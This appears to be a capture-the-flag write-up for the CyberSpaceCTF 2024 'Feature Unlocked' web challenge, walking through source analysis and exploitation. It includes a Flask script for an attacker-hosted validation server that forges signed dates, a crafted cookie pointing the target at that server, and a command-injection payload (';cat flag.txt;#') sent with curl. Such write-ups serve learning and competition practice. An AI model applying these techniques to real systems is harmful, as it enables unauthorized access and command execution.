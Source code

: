 ```yaml
---
layout: post
title:  "CyberSpaceCTF - 2024 - Feature Unlocked Writeup"
description: Solution for Feature Unlocked challenge
tags: [CSCTF, CTF, 2024, Web, Writeup, Red Team, Offensive, Challenge]
---
```


# Challenge Description
```
Name: Feature Unlocked
Point: 50
Solves: 184
Author: cryptocat
---
The world's coolest app has a brand new feature! Too bad it's not released until after the CTF..

```

# Analysis
For this challenge, I thought it was an easy one until I read through the messy source code. The flag was hidden in the document root directory of this challenge, located at `/home/user/chroot/app`. <br>

We are provided with the following websites: <br>
The remaining time displayed at `/release` indicates the time left until *`the new feature`* is released: <br>

<kbd><img src="https://github.com/user-attachments/assets/7aedb7fd-e861-4cb6-9b22-069f268f15de"></kbd> <br>

The next one is `/feature` with a clickable link that would redirect us back to `/release`, let's find out what's happening behind the scenes!<br> 

<kbd><img src="https://github.com/user-attachments/assets/93517c66-ae5f-4003-a2ab-b8d63b174e21"></kbd>

# Source code analysis
Directory tree:
```bash
.
├── Dockerfile
├── flag.txt
├── nsjail.cfg
├── run.sh
└── src
    ├── app
    │   ├── __init__.py
    │   ├── main.py
    │   ├── static
    │   │   ├── css
    │   │   │   ├── animations.css
    │   │   │   └── styles.css
    │   │   └── images
    │   │       └── logo.png
    │   └── templates
    │       ├── base.html
    │       ├── feature.html
    │       ├── index.html
    │       └── release.html
    ├── requirements.txt
    ├── run.sh
    └── validation_server
        └── validation.py
```
At the top of `main.py`, we can see that server is using `URLSafeTimedSerializer` with a *random 16 bytes secret* for serialize and deserialize the `access_token`. `DEFAULT_PREFERENCES` cookie and `NEW_FEATURE_RELEASE` date: <br>
<kbd><img src="https://github.com/user-attachments/assets/391e7bec-ce68-406b-bf4b-42bd28901fb6"></kbd>


At `main.py`, we got `/release` which would first check if the `access_token` cookie is presented and then only redirect us if the data value is `access_granted`. <br>
Next, we have an optional GET parameter `debug`. When this value set to true, the system will accept the overidding of validation_server from the `preferences` cookie and perform server validation. If the validation is true, we then will be redirected to `/release` with dumped `access_token` assigned in response header: <br> 
<kbd><img src="https://github.com/user-attachments/assets/7cb4aa50-4132-472b-985a-93d45cdfc92a"></kbd> <br>

After delving into `validate_server`, I saw that it performs another validation through `validate_access()` and return the `date` later than `NEW_FEATURE_RELEASE` date:<br>
<kbd><img src="https://github.com/user-attachments/assets/2a7fb943-c982-4cdc-afb2-8c3c3f5b339a"></kbd> <br>

The `validate_access()` is the last step of validation but this time it just performs token verification using `signature` received from the `validation_server`'s response: <br>
<kbd><img src="https://github.com/user-attachments/assets/e2f61fdf-b933-46af-93a9-2bb5be578b98"></kbd> <br>

A potential OS Command injection found at `/feature` POST method if token deserialization data is `access_granted`, mean that we've got to get the `access_token` cookie to access this hidden feature: <br>
<kbd><img src="https://github.com/user-attachments/assets/7d2585dd-4dcd-48a0-bc69-ed6505adb56e"></kbd>

Then I came up with an idea: <br>
> "What if the `validation_server` value in the `preferences` cookie is the URL of our self-hosted malicious server?"

# Setting up malcious validation server
Using the `validation.py`, we can fully host a validation server with the `date` value adjusted to be later than `NEW_FEATURE_RELEASE`, and then sign the token with a `hash object` including our `date` value. Full python script shown below:<br>
```python
from flask import Flask, jsonify
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')


@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return pubkey, 200, {'Content-Type': 'text/plain; charset=utf-8'}


@app.route('/', methods=['GET'])
def index():
    date = str(int(time.time()) + 7 * 24 * 60 * 60 * 69) # Add more dates here
    h = SHA256.new(date.encode('utf-8'))
    signature = DSS.new(key, 'fips-186-3').sign(h)

    return jsonify({
        'date': date,
        'signature': signature.hex()
    })


if __name__ == '__main__':
    app.run(host='127.0.0.1', port=8081)
```

Then setup a tunnel using ngrok: <br>
```bash
(monkeontheroof㉿DESKTOP-FLPUJ9V)-[~]
└─$ ngrok http 8081
```

Base64 encode a new `preferences` cookie including our validation server:<br>
```bash
(monkeontheroof㉿DESKTOP-FLPUJ9V)-[~]
└─$ echo '{"theme": "light", "language": "en", "validation_server": "YOUR_VALIDATION_SERVER_HERE"}' | base64 -w 0
```

Then send the GET request to `/release` with `debug` parameter set to `true`, also the modified `preferences` cookie including our malcious validation server: <br>
```bash
┌──(monkeontheroof㉿DESKTOP-FLPUJ9V)-[~]
└─$ curl -s -I https://feature-unlocked-web-challs.csc.tf/release?debug=true -b 'preferences=YOUR_B64_TOKEN'

HTTP/2 200
date: Fri, 06 Sep 2024 17:23:14 GMT
content-type: text/html; charset=utf-8
set-cookie: access_token=ImFjY2Vzc19ncmFudGVkIg.Zts6gg.PLMJ0Id-S1aNwWIUea7HZ7povoM; Secure; HttpOnly; Path=/ # access token dumped
...
```

Took the `access_token` cookie and send a POST request to `/feature` with our payload for the exploitation of OS Command injection: <br>
`curl -X POST https://feature-unlocked-web-challs.csc.tf/feature -d "text=;cat+flag.txt;#" -b "access_token=ImFjY2Vzc19ncmFudGVkIg.Zts_cw.zHs2yfq0altGN1yBnRKLcUzK1S0"` <br>

Flag: `CSCTF{d1d_y0u_71m3_7r4v3l_f0r_7h15_fl46?!}`
